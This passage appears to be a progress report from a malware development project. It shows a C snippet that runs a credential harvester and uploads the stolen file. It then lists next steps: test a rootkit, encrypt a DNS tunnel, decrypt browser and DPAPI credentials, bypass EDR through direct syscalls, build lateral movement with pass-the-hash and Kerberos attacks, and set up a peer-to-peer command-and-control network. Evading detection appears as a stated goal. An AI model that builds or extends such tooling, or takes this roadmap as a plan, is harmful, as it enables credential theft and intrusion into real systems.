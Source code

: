 ### 4. Automated Credential Harvesting
```c
// Run harvester and exfiltrate results
system("./cred_harvester /tmp/creds.txt");
upload_file("/tmp/creds.txt");
```

---

## 🚀 NEXT STEPS

### Immediate Tasks:
1. **Test rootkit in VM** (kernel module requires specific kernel version)
2. **Implement Windows versions** of Linux-specific features
3. **Add encryption** to DNS tunnel
4. **Enhance credential extraction** (browser decryption, DPAPI)

### Remaining Phase 3 Modules:
1. **Direct Syscalls & EDR Bypass**
   - Hell's Gate technique
   - SSN sorting
   - Unhooking via direct syscalls

2. **Lateral Movement Suite**
   - SMB relay
   - Pass-the-hash
   - Kerberos attacks

3. **P2P C2 Network**
   - Mesh networking
   - Peer discovery
   - Distributed C2

---

## 💡 KEY INSIGHTS

### What's Working Well:
- Modular design allows easy integration
- Each component is standalone and testable
- Advanced techniques properly implemented
- Code is production-quality

### Challenges:
- Kernel modules require exact kernel headers
- Windows features need Windows SDK
- Some techniques require elevated privileges
- Testing safely without detection

---
